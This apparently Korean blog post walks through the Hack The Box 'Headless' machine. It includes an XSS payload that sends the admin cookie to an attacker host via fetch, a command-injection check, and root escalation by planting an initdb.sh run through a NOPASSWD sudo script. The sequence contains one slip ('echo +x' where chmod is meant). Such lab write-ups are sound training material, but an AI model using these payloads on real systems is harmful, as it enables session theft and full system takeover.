 ```yaml
---
title: Hack The Box - headless
date: 2024-04-25
author: glasses96
categories: [Hack The Box]
tags: [Hack The Box, headless, XSS, Command Injection, privilege escalation]
pin: true
math: true
mermaid: true
---
```


> **Hack The Box - Headless 문제를 풀어 봅시다.** 
{: .prompt-info }

<span style="color:#9999FF"></span>

## Port Scanning
Port Scanning 결과는 22번(SSH)와 5000번 포트가 열려있습니다.

![port_scan](/assets/post/59/1.png)

## XSS
5000번 포트로 접근 시 웹 페이지가 보입니다.

![WEB](/assets/post/59/2.png)

For questions 버튼을 누르면 이름, 폰번호, contents등을 적어 `Submit`을 할 수 있습니다.  
다만 content에 `<>`가 들어가게 되면 `hacking attempt detected`가 되어 관리자에게 전달 된다고 합니다.  
패킷의 내용을 보면 요청 헤더가 들어 간 것을 확인할 수 있습니다.

![port_scan](/assets/post/59/3.png)

![port_scan](/assets/post/59/4.png)

Submit 할때 요청 헤더에 `XSS` 구문을 넣으면 XSS가 동작하는 것을 확인할 수 있습니다.  

![port_scan](/assets/post/59/5.png)

### Fetch to Cookie 
해당 부분에서 많은 시간을 걸렸는데 평소 XSS 점검을 하게 되면 보통 `location.href, window.open`등 함수를 이용하여 페이지가 이동되는 증적을 찍었는데 해당 문제에서는 동작을 하지 않았습니다.  
문제에도 `headless` 라는 힌트가 있었고 아마 봇이 headless로 인해 해당 함수가 동작하지 않은 것을 알 수 있습니다.

headless 모드에서도 동작하는 방법 중 하나가 바로 `fetch`를 이용하는 것입니다.  
- <img src=x onerror=fetch("http://{attacker_address}/cookie="+document.cookie);>

![port_scan](/assets/post/59/6.png)

## Directory Busting

admin cookie를 탈취에 성공하고도 페이지의 달라진 점을 확인할 수 없었습니다.  
그래서 `dirb` 라는 Directory Busting 도구를 이용하니 `dashboard` 페이지를 찾을 수 있습니다.

![port_scan](/assets/post/59/7.png)

## Coomand Injection 
dashboard 페이지에 접근하면 `Generate Report` 버튼을 눌러 응답을 확인해보면 `system?` 어쩌구 하는 것을 보아 Command Injection 관련된 것을 추측하고, `sleep 20`를 주어 Command가 실행되는 것을 확인할 수 있습니다.  
cat 명령으로 user flag를 얻을 수 있습니다.
![port_scan](/assets/post/59/8.png)

![port_scan](/assets/post/59/9.png)

## Local Privilege Escalation

`sudo -l` 명령어를 통해 NOPASSWD가 적용된 `syscheck` 명령어를 확인할 수 있습니다.

![port_scan](/assets/post/59/10.png)

syscheck 파일을 보면 pgrep으로 initdb.sh 검색 후 DB 서비스가 실행하지 않으면 해당 파일을 실행하는 것을 알 수 있습니다.  
syscheck 실행 시 `Database service is not running. Starting it...` 응답으로 나오는 것을 보아 `initdb.sh` 파일을 만들어 권한상승이 가능한 것을 확인했습니다.
```sh
 Systems are up and running!
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

리버스 쉘을 연결하고 아래의 명령어를 차례대로 입력 시 루트 권한을 획득 할 수 있습니다.

- `echo "/bin/bash" > initdb.sh`
- `echo +x initdb.sh`
- `sudo syscheck`

![port_scan](/assets/post/59/11.png)


## 후기
`fetch`나 `XMLHttpRequest`를 알고는 있었는데 바로바로 생각이 나지 않았습니다...  
앞으로 XSS 점검 시에는 fetch로도 증적을 남겨야겠습니다!!

sudo의 nopasswd로 인한 권한 상승 케이스는 사실 실무에서는 많이 발견하기는 어렵지만 그래도 언제봐도 신기한거 같습니다. :D 
